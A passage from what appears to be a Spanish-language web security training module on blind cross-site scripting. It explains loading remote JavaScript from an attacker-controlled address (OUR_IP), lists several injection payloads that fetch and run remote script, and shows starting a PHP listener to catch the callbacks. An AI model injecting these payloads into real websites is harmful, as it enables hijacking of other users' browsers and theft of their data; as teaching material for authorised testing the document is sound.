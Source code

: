 
## Loading a Remote Script

En HTML, podemos escribir código JavaScript dentro de las etiquetas `<script>`, pero también podemos incluir un script remoto proporcionando su URL, de la siguiente manera:

```html
<script src="http://OUR_IP/script.js"></script>
```

Así que podemos usar esto para ejecutar un archivo JavaScript remoto que se sirve en nuestra VM. Podemos cambiar el nombre del script solicitado de `script.js` al nombre del campo en el que estamos inyectando, de modo que cuando recibamos la solicitud en nuestra VM, podamos identificar el campo de entrada vulnerable que ejecutó el script, de la siguiente manera:

```html
<script src="http://OUR_IP/username"></script>
```

Si recibimos una solicitud para `/username`, entonces sabemos que el campo `username` es vulnerable a XSS, y así sucesivamente. Con eso, podemos empezar a probar varios payloads de XSS que carguen un script remoto y ver cuál de ellos nos envía una solicitud. Los siguientes son algunos ejemplos que podemos usar de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Como podemos ver, varios payloads comienzan con una inyección como `'>`, lo que puede o no funcionar dependiendo de cómo se maneje nuestra entrada en el backend. Como se mencionó anteriormente en la sección `XSS Discovery`, si tuviéramos acceso al código fuente (es decir, en un DOM XSS), sería posible escribir con precisión el payload requerido para una inyección exitosa. Es por eso que Blind XSS tiene una tasa de éxito más alta con vulnerabilidades de tipo DOM XSS.

Antes de comenzar a enviar payloads, necesitamos iniciar un listener en nuestra VM, usando `netcat` o `php` como se mostró en una sección anterior:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Ahora podemos empezar a probar estos payloads uno por uno usando uno de ellos para todos los campos de entrada y agregando el nombre del campo después de nuestra IP, como se mencionó anteriormente, así:

```html
<script src=http://OUR_IP/fullname></script> # esto va dentro del campo full-name
<script src=http://OUR_IP/username></script> # esto va dentro del campo username
...SNIP...
```
